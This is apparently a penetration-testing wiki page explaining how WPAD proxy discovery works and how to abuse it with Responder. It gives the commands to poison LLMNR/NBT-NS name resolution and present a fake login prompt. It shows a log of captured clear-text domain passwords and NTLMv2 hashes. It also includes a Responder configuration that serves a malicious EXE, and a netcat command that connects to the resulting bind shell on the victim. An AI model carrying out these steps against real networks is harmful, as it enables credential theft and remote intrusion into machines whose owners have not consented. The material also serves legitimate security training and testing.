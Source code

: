 # WPAD Abuse

## WPAD

Organisations allow employees to access the internets through proxy servers to increase performance, ensure security and track traffic.Users who connected to the corporate network need to know proxy server for specific URL without doing configuration. The Web Proxy Auto-Discovery Protocol \(WPAD\) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.

### How WPAD works <a id="how-wpad-works"></a>



The client wants to access the wpad.dat configuration file for proxy configuration. It searches computers named as “wpad” on the local network to find this file. And then following steps are carried out:

1. If the DHCP Server is configured, the client retrieves the wpad.dat file from the DHCP Server \(if successful, step 4 is taken\)
2. The wpad.corpdomain.com query is sent to the DNS server to find the device that is distributing the Wpad configuration. \(If successful, step 4 is taken\)
3. Sent LLMNR query for WPAD \(if success, go step 4 else proxy can’t be use\)
4. Download wpad.dat and use

According to the above sequence, DHCP poisoning attack can be done for the first step. DNS poisoning attack can naturally be performed for the second step. But as I pointed out at the beginning of this article, configured network devices prevent these attacks. When a query is made through the LLMNR, this request will go to every client in the network via broadcast. At this point the attacker sends his wpad.dat file to the clients, acting like a wpad server.

{% hint style="info" %}
The important thing is that WPAD protocol is built in Windows operating systems. This configuration can be seen in the LAN Settings Section of the Internet Explorer browser. With this configuration, Internet Explorer makes a WPAD name resolution query on the whole network.
{% endhint %}

## Abusing WPAD

![](../../../.gitbook/assets/image%20%28259%29.png)

#### Responder serves a fake WPAD Server and responds to clients’ WPAD name resolution. The client then requests the wpad.dat file from this fake WPAD Server. Responder creates an authentication screen and asks clients to enter the username and password they use in the domain. Naturally, employees write usernames and passwords used in the domain name. Finally, we can see their username and passwords.

 we serve the fake HTTP Server and wait for clear-text passwords.

```text
python Responder.py -I eth0 -wFb
```

And our victim will see the following dialog box and naturally type the username and password.

![](../../../.gitbook/assets/image%20%28260%29.png)

and we can see the clear-text passwords:

```text
---
snippet
---
[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name GOOGLE.COM (service: Workstation/Redirector)
[*] [NBT-NS] Poisoned answer sent to 10.7.7.30 for name WWW.GOOGLE.COM (service: Workstation/Redirector)
[HTTP] Basic Client : 10.7.7.30
[HTTP] Basic Username : PENTESTLAB\roland
[HTTP] Basic Password : secr3tPassw0rd123!
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[SMB] NTLMv2-SSP Client : 10.7.7.30
[SMB] NTLMv2-SSP Username : PENTESTLAB\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::PENTESTLAB:1122334455667788:8EBDB974DF3D5F4FB0CA15F1C5068856:01010000000000007894C6BE2C54D201FCEDFDB71BB6F1F20000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000B39077D5C9B729062C03BB45B88B0D9EC2672C57115A1FE3E06F77BD79551D8F0A001000000000000000000000000000000000000900220063006900660073002F007200650073007000700072006F00780079007300720076000000000000000000
[SMB] Requested Share : \\RESPPROXYSRV\IPC$
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
[*] [LLMNR] Poisoned answer sent to 10.7.7.30 for name respproxysrv
[*] Skipping previously captured hash for PENTESTLAB\Administrator
[SMB] Requested Share : \\RESPPROXYSRV\PICTURES
```

## Backdoor with Responder

The responder is not only MiTM attack for the WPAD service. It can force victims to downloadinga malicious files by directing ze to a fake web page. Social engineering can be used to realistically prepare the web page to be used for this attack. However, the Responder itself has a fake redirect page as well. All we need to do is make a few changes to the responder.conf file. We set “Serve-HTML” and “Serve-EXE” parameters to “On”.

```text
[HTTP Server]
; Set to On to always serve the custom EXE
Serve-Always = On
; Set to On to replace any requested .exe with the custom EXE
Serve-Exe = On 
; Set to On to serve the custom HTML if the URL does not contain .exe
; Set to Off to inject the 'HTMLToInject' in web pages instead
Serve-Html = On 
```

And we’re starting to run the Responder again.

```text
python Responder.py -I eth0 -i 10.7.7.31 -r On -w On
```

Now, when the victim tries to go out to the internet, ze will only see the following page. And by chance, **the victim clicks on the Proxy Client connection and Bind downloads the CMD Shell, so we can connect to the victim’s 140 connection point with netcat.**

![](../../../.gitbook/assets/image%20%28258%29.png)



```text
nc 10.7.7.30 140 -vv
```



